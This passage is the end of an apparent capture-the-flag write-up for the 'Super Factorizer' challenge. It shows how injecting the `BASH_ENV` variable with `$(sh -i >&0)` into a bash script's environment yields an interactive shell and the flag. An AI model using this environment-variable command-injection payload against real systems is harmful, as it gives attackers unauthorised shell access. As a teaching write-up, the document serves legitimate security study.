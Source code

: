 We can see our custom variable `AAAA` is successfully injected inside the environment of the `factor.sh` script. Now which variable can we target ?

After searching for a moment some useful environment variables to smuggle inside a `bash` script, I found [this](https://0xn3va.gitbook.io/cheat-sheets/web-application/command-injection#bash_env), which mentioned the `BASH_ENV` .

According to the [`bash` manual](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html) : 

```
BASH_ENV
If this variable is set when Bash is invoked to execute a shell script, its value is expanded and used as the name of a startup file to read before executing the script. See Bash Startup Files.
```

Here is our free RCE ! We can inject `BASH_ENV=$(sh)` to get a shell.

However this didn't work remotely, it seems that the `stdout` file descriptor is closed by doing this. Redirecting it to stdin did the trick : `BASH_ENV=$(sh -i >&0)`.

```
[*] Switching to interactive mode
[ SuperFactorizer ]

Size of list> nums[1]: nums[2]: 

$ id && cat flag.txt
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
FCSC{0f531ad9168d64c1d520a82593a2d968fce8478e5a6d1a310ea5531a6724dc3e}
```



### Conclusion

`Super Factorizer` was a fun challenge which proves that even if a vulnerability can't be exploited the *traditional* way, a data-only approach might be the key.


